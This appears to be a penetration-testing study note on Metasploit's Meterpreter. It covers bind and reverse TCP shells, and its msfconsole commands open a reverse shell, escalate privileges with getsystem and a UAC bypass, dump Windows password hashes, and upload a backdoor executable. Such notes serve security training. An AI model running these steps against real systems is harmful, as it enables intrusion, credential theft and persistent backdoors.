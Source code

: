 ### Meterpreter

> Ability to:
> - Get a powerful shell on an exploited machine
> - Take control over an exploited machine
> - Install backdoors

Provides advanced features to:
- Gather information.
- Transfer files between the attacker and victim machines.
- Install backdoors and more.
- `meterpreter` can both wait for a connection on the target machine or connect back to the attacker machine.
- A Meterpreter session is an advanced shell on the target machine.
- Most used configurations are:
  - *bind_tcp*: runs a server process on the target machine that waits for connections from the attacker machine.
  - *reverse_tcp*: performs a TCP connection back to the attacker machine (helping to evade firewall rules).

Inside a `msfconsole`:

```bash
> search meterpreter
> set payload windows/meterpreter/reverse_tcp
> exploit
> sessions -l # current opened sessions
> sessions -i 1 # resume session 1
> sysinfo # retrieve info about the exploited machine
> ifconfig # prints the network configuration
> route # routing info
> getuid # which user is running the process exploited
> getsystem # Runs a privilege escalation routine on the target machine

# Bypass UAC (User Account Control policy of modern Windows OSs)
> background # switch from a meterpreter session to the msf console
> search bypassuac
> use exploit/windows/local/bypassuac
> set session 1
> exploit
> getuid

# Dumping the Password Database
> background
> use post/windows/gather/hashdump
> set session 2
> exploit

# Upload / download files
> download HaxLogs.log /root/
> upload /root/backdoor.exe c:\\Windows # note the backslash escaping
> shell
```
